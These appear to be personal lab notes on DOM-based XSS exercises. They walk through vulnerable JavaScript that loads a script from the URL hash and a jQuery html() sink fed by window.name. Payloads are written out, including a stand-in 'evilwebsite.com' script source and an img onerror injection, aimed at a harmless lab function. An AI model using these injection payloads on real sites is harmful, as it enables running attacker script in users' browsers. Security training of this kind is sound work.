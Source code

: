 - we just to pass the if statement and the d00med() function will be called
- `a.host` shouldn't be an empty string and `location.host` shouldn't  match `a.host`
- `var d=document.createElement("script");` is creating a `script` element
- if statement checks for # in the URL and if it is present and there is a value after # in the URL this assigns that value to the `src` attribute of the newly created `<script>` element.
- In the function below `a.href` takes value of `d.src` which will be our input after # in URL

payload
`http://evilwebsite.com`

![[Pasted image 20241222010427.png]]

# jquery_html
---
> Use DOMinatorPro/BCDetect to identify the issues and try to execute the function d00med()

![[Pasted image 20241222010958.png]]

clicking those links
![[Pasted image 20241222010902.png]]

page source
```js
function setMessage(){
 var t=unescape(location.hash.slice(1));
 $("div[id="+t+"]").html("Message from the name "+window.name);
}
$(document).ready(setMessage  );
$(window).bind("hashchange",setMessage)
```

- Since `window.name` is not sanitized we can directly inject malicious JS into window.name which the browser will read and execute every time those `Show Here` links are clicked

Test case with `window.name` set to a random string
![[Pasted image 20241222011606.png]]

payload
```js
// in developer console
window.name = "<img src=x onerror=d00med()>"
```
- Add the above payload in developer console
- click the `Show Here` links 
![[Pasted image 20241222011725.png]]

# jquery_old_html
---
> To identify the issues and try to execute the function d00med()
